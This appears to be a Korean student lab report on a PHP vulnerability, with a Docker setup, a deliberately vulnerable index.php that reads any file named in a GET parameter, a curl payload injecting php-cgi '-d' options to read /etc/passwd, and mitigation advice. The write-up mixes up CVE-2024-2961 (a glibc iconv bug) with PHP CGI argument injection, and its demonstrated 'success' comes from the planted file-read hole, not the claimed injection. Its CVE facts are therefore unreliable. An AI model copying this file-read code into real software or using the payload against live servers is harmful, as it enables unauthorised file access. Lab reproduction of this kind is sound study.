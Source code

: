 # PHP File Read to Remote Code Execution Through GNU C Library Iconv (CVE-2024-2961)

# 요약

---

# 1. 취약점 소개

- **CVE 번호:** CVE-2024-2961
- **취약점 이름:** PHP CGI Argument Injection
- **발견 시기:** 2024년 3월
- **영향 받는 버전:** PHP 5 ~ PHP 8.3.5 (특히 PHP 8.3.3, PHP 8.3.4)
- **공식 패치 버전:** PHP 8.3.6, PHP 8.2.18, PHP 8.1.28

---

### 1.1 취약점 상세 설명

PHP가 **CGI 모드**로 동작할 때, HTTP 요청에 특정 방식으로 파라미터를 삽입하면
**php-cgi 프로세스에 명령줄 옵션(arguments)** 을 주입할 수 있다.

공격자는 이 취약점을 통해:

- PHP 설정(allow_url_include, auto_prepend_file 등)을 강제로 조작하거나,
- 서버에 존재하는 파일을 읽거나,
- 원격에서 임의 코드를 실행(RCE)할 수 있다.

---

### 1.2 취약점 발생 원인

- php-cgi가 GET/POST 요청 파라미터를 처리할 때,
- 명령줄 인자처럼 해석하는 구조적 설계 결함이 존재했다.
- 이로 인해 `d`, `n`, `c` 등의 옵션을 외부에서 주입할 수 있었다.

---

# 2. 환경 구축 및 실행 방법

본 취약점 검증을 위해 Docker 기반의 로컬 환경을 구성하였다.

---

도커 환경에서 PHP 8.3.4 서버를 실행하기 위해 다음 명령어를 사용하였다.

```
docker compose up -d

```

서버가 시작된 후 브라우저에서 다음 URL을 통해 `/etc/passwd` 파일을 읽을 수 있다.

```html
http://your-ip:8080/index.php?file=/etc/passwd.
```

### **index.php**

```php
<?php
echo "File contents: ";
echo file_get_contents($_GET['file']);
?>
```

- 사용자의 GET 파라미터 `file`에 따라 서버 파일을 읽어 출력한다.
- "File contents:" 문구를 추가하여 PoC용 스크립트 통신 포맷에 맞추었다.

# 3. 익스플로잇

Linux 기반 시스템에서 Python 3.10 이상과 필요한 패키지를 설치한다.

---

**사전 준비**

```bash
pip install pwntools
pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
```

그런 다음 POC를 실행한다.

```bash
curl "http://127.0.0.1:8080/index.php?-d+allow_url_include=on+-d+auto_prepend_file=php://input&file=/etc/passwd"
```

요청을 통해 `/etc/passwd` 파일의 내용을 출력하는 데 성공하였다.

![image.png](image.png)

### 대응방안

- PHP를 최신 버전(8.3.6 이상)으로 업데이트
- CGI 모드 사용 지양
- 웹 서버, WAF 설정을 통해 위험한 파라미터 차단

# 정리

---

원본 https://github.com/lemi9090/vulhub/tree/master/php/CVE-2024-2961에선 

shell.php 파일을 생성하여 phpinfo() 함수를 실행하는 과정까지 구현하였다.

하지만 본 과제 환경에서는 **php://filter**, **data:// wrapper** 기능이 제한되어 있어

shell.php 파일 생성 및 추가 실행은 실패하였다.

따라서, index.php를 수정하여 `/etc/passwd` 파일을 직접 읽는 방식으로

PoC를 재구성하고 성공적으로 취약점을 입증하였다.

### Fork 링크

[https://github.com/lemi9090/vulhub/tree/master/php/CVE-2024-2961](https://github.com/lemi9090/vulhub/tree/master/php/CVE-2024-2961)
